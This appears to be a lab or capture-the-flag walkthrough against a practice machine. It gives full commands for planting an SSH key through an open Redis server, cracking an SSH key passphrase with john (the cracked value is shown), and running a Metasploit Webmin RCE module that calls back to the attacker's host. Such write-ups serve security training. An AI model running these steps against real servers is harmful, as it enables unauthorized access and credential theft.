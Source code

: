 redis-cli -h 10.10.10.160          
10.10.10.160:6379> sudo systemctl restart redis
(error) ERR unknown command 'sudo'
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis"
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
knowing this you know where you can write the `authenticated_users` file to access via ssh **with the user redis**. If you know the home of other valid user where you have writable permissions you can also abuse it:

ssh-keygen -t rsa
(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit
redis-cli -h 10.10.10.160
config set dir /var/lib/redis/.ssh
config set dbfilename "authorized_keys"
save
ssh -i id_rsa redis@10.10.10.160

then we found id_rsa created by Matt:
-rwxr-xr-x 1 Matt Matt 1743 Aug 26  2019 /opt/id_rsa.bak

ssh -i id_rsa.bak Matt@10.10.10.160
Enter passphrase for key 'id_rsa.bak':
we don't have a passphrase so we'll crack it with john

ssh2john id_rsa.bak > id.hash
john --wordlist=/home/kali/Downloads/rockyou.txt id.hash
result:
computer2008
we even don`t need use ssh, we can auth like Matt with use su Matt command

we found vulnerable version webmin and we can exploit it
msf6 exploit(linux/http/webmin_package_updates_rce) > set lhost 10.10.14.15
lhost => 10.10.14.15
msf6 exploit(linux/http/webmin_package_updates_rce) > set rhosts 10.10.10.160
rhosts => 10.10.10.160
msf6 exploit(linux/http/webmin_package_updates_rce) > set password computer2008
password => computer2008
msf6 exploit(linux/http/webmin_package_updates_rce) > set username Matt
username => Matt
msf6 exploit(linux/http/webmin_package_updates_rce) > show targets
Exploit targets:
    Id  Name
    --  ----
=>  0   Unix In-Memory
    1   Linux Dropper (x86 & x64)
    2   Linux Dropper (ARM64)

msf6 exploit(linux/http/webmin_package_updates_rce) > set target 1
target => 1
msf6 exploit(linux/http/webmin_package_updates_rce) > run
![[Pasted image 20250228131941.png]]
